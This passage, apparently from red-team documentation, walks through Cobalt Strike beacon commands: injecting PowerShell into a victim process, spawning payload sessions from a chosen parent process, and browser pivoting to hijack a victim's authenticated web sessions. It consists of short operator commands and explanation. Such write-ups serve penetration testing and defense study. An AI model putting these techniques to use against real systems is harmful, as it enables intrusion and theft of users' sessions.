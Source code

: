 ![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-39-20.png>)

### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:

{% code title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-44-30.png>)

Highlighted in green are new handles that are opened in the target process when powershell script is being injected:

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-52-16.png>)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-30.png>)

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-25.png>)

### Browser Pivoting

This feature enables an attacker riding on compromised user's browsing sessions.

The way this attack works is best explained with an example:

* Victim log's in to some web application using Internet Explorer.
* Attacker/operator creates a browser pivot by issuing a `browserpivot` command
* The beacon creates a proxy server on the victim system (in Internet Explorer process to be more precise) by binding and listening to a port, say 6605
* Team server binds and starts listening to a port, say 33912
* Attacker can now use their teamserver:33912 as a web proxy. All the traffic that goes through this proxy will be forwarded/traverse the proxy opened on the victim system via the Internet Explorer process (port 6605). Since Internet Explorer relies on WinINet library for managing web requests and authentication, attacker's web requests will be reauthenticated allowing the attacker to view same applications the victim has active sessions to without being asked to login.

Browser pivotting in cobalt strike:

{% code title="attacker@cs" %}
```csharp
beacon> browserpivot 244 x86
```
{% endcode %}

